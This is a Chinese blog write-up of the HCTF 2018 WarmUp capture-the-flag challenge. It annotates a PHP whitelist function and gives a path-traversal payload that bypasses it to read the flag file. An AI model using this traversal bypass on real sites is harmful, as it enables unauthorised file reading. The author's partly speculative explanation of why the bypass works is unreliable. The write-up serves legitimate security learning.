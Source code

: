 ```yaml
---
title: HCTF 2018 WarmUp
categories:
- General
- External sources
feature_text: |
  [HCTF 2018]WarmUp

---
```




2021.10.16

???



<!-- more -->

F12发现一个php文件被注释掉了

通过http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/source.php查看源代码:

![image-20211016175531793]({{ site.url }}/assets/prtsc/image-20211016175531793.png)

开始查函数：

- isset：检测目标变量的值是否为NULL，如果是NULL返回False
- is_string：检测目标变量是否为字符串，如果是，返回True
- echo：相当于输出
- in_array(search,array,type)：搜索数组中是否存在指定的值，存在输出True（如果 *search* 参数是字符串且 *type* 参数被设置为 TRUE，则搜索区分大小写。）
- mb_substr( string $str , int $start [, int $length = NULL [, string $encoding = mb_internal_encoding() ]] ) : string      :划重点划重点了

![image-20211016180918301]({{ site.url }}/assets/prtsc/image-20211016180918301.png)

- mb_strpos(haystack,needle)  :返回要needle在haystack字符串中首次出现的位置

- $_REQUEST:获取以POST方法和GET方法提交的数据

分析代码

cehckFile这个函数进行了 3次白名单检测、 2次问号过滤、一次URL解码

    class emmm
        {
            public static function checkFile(&$page)
        {
            //白名单列表
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //isset()判断变量是否声明is_string()判断变量是否是字符串 &&用了逻辑与两个值都为真才执行if里面的值
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it A";
                return false;
            }
            //检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($page, $whitelist)) {
                return true;
            }
            //过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            
            //由此开始******************************************
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')//返回$page.?里面?号出现的第一个位置
            );
    
             //第二次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            //url对$page解码
            $_page = urldecode($page);
    
            //第二次过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            //第三次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

```
payload：
http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=hint.php?../../../../../ffffllllaaaagggg
```

理解：

找到flag的关键是找到 ”ffffllllaaaagggg“ 这个文件，分析代码得知其进行了白名单和？的过滤。想要执行ffffllllaaaagggg这个文件，就要先得到index.php的权限（自我理解，有待考证），网址的载入是从后往前的（？），所以从后往前的第一个”？“被第一次问号过滤过滤掉。然后白名单过滤再将hint.php过滤掉，所以真正执行的网址其实是http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=../../../../../ffffllllaaaagggg

从而拿到flag

注：关于为什么只需要跳过一次问号过滤和一次白名单过滤是因为从 $_page = mb_substr(，才开始真正的过滤输入的网址





